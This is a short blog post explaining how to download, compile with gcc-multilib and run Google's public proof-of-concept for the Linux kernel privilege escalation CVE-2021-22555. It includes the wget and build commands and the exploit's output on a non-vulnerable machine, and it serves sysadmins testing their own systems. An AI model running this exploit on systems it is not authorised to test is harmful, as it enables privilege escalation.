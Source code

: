 ```yaml
---
layout: post
title: Compiling the CVE-2021-22555 exploit Proof of concept
tags: [c,linux,quick,security,sysadmin]
---
```


Today (Jul/15/2021), on Hacker News, it's been published the [CVE-2021-22555: Turning \x00\x00 into 10000$](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html) (entertaining) article.

In the related GitHub repository, the source of the proof of concept is provided, however, for programmers not familiar with C, it's not obvious how to compile it.

A list of kernel versions is provided, however, there are cases where identifying the kernel exploitability is not immediate.

In order to avoid hairpulling to fellow sysadmins, this article shows the procedure to compile the PoC on modern Ubuntu/Debian machines, with comments.

Content:

- [Procedure](/Compiling-the-cve-2021-22555-exploit-proof-of-concept#procedure)

## Procedure

```sh
# Reference: https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555

# Download the PoC. Caution should always be applied for procedures like this; in this case, keep in
# mind that this is a Google official repository.
#
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c

# The exploit needs the executable to be 32-bits, so we need to cross compile. For this specific case,
# this package will take care of the problem.
#
# Without this package, odd errors about missing headers will be raised, like:
#
#     /usr/include/linux/errno.h:1:10: fatal error: asm/errno.h: No such file or directory
#         1 | #include <asm/errno.h>
#
apt install --yes gcc-multilib

# Now we can compile it.
#
gcc -m32 -static -o exploit exploit.c

# Observe the binary architecture.
#
file exploit
# exploit: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=7d69a76adf18149d1c076b1dda2cac96fda6d033, for GNU/Linux 3.2.0, not stripped

# Run it! This is an example of non-exploitable system.
#
./exploit
# [+] Linux Privilege Escalation by theflow@ - 2021
#
# [+] STAGE 0: Initialization
# [*] Setting up namespace sandbox...
# [*] Initializing sockets and message queues...
#
# [+] STAGE 1: Memory corruption
# [*] Spraying primary messages...
# [*] Spraying secondary messages...
# [*] Creating holes in primary messages...
# [*] Triggering out-of-bounds write...
# [*] Searching for corrupted primary message...
# [-] Error could not corrupt any primary message.
```
